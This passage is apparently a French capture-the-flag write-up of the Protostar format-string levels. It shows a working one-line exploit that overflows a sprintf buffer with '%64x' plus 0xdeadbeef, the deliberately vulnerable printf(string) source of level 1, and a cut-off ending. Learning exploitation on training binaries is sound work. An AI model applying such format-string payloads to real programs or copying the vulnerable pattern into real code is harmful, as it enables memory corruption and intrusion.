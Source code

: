 ```nasm
   0x08048429 <+53>:    leave  
   0x0804842a <+54>:    ret    
End of assembler dump.
```

Et notre buffer destination utilisé par `sprintf` est à `ebp-0x4c`. Il y a 64 octets entre notre buffer et la variable `target` :

```python
>>> 0x4c - 0xc
64
```

On va donner à `sprintf` une chaine de format qui va représenter des données sur 64 octets puis placer la valeur attendue juste derrière :

```bash
user@protostar:/opt/protostar/bin$ ./format0 `python -c 'import struct; print "%64x" + struct.pack("<I", 0xdeadbeef)'`
you have hit the target correctly :)
```

Ca marche. `sprintf` a utilisé le format `%64x` et a représenté sur 64 octets (via du padding) la première valeur qu'il a trouvé sur la stack (ce qu'il y a ne nous intéresse pas ici). Les 4 derniers octets ont alors écrasé la variable comme il fallait.

## Level 1

Le binaire correspond à ce code C :

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

Et on dispose d'un indice :
